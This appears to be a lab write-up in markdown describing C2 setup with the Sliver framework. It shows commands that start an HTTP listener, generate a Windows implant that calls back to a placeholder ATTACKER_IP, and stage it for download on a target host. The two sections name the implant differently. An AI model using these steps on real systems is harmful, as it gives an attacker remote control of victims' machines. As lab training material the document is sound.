


# C2 Infrastructure and Payload Generation
Compile a custom x64 Windows executable beacon payload configured to callback to the Linux host IP over HTTP:

## 1. Endpoint Detonation
* **Service Initialization:**
  * Managed the system daemon on the Linux attacker machine:
    ```bash
    sudo systemctl restart sliver
    sliver
    ```
  * Check all active listeners, allowing you to confirm if your HTTP listener is running.
      ```bash
       jobs
      ```
  <!-- Screenshot Placeholder -->
> **Screenshot:**
> 

> **Timestamp:** <a href="https://www.youtube.com/watch?v=du6_Dk7-a-k&t7m10s"> </a>

> **Caption:** Sliver Shell Environment.    
 
* **Payload Generation:**
  * Started an HTTP C2 listener on port `80`:
    ```text
    [server] sliver > http
    ```
      * Default listener on port 80.
      * Optional flags can be added if needed, such as specifying a port with -l or a domain with --domain.
        
  * Generated a custom Windows AMD64 implant executable:
    ```text
    [server] sliver > generate --http <ATTACKER_IP> --save /var/www/payloads
    ```
    *Output Binary:* `EVERYDAY_BOWTIE.exe` (SHA-256: `65d05836383075be424604df356f14f33d565407cb903419bee27ce59d293c5a`)

     <!-- Screenshot Placeholder -->
> **Screenshot:**
> 

> **Timestamp:** <a href="https://www.youtube.com/watch?v=du6_Dk7-a-k&t11m19s"> </a>

> **Caption:** Sliver compiling the custom binary implant (URBAN_UPPER.exe).
> 
* **Delivery:**
  * Staged the binary via HTTP web server and downloaded it to `C:\Users\Administrator\Downloads\` on the Windows host.
 
    
